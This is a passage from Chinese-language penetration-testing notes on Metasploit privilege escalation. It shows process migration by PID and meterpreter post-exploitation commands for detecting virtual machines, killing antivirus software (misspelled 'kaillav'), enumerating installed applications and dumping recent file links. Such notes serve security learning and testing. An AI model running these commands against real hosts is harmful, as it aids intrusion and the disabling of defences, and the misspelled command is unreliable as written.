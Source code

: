 ![image-20210811195846081](msf提权.assets/image-20210811195846081.png)



攻击成功后，会显示某个PID进程的进程权限进行权限提升，但是整个用户权限却并没有提升，这里通过对目标进程进行迁移实现权限提升

```
migrate   PID进程号
```













### 后续提权

#### 信息收集

```
run   post/windows/gather/checkvm                           ##判断是否为虚拟机

run   kaillav                                                                       ##杀死目标主机运行杀毒软件

run  post/windows/gather/enum_applications          ##获取安装软件信息

run  post/windows/gather/dumplinks                         ##获取最近的文件操作
```
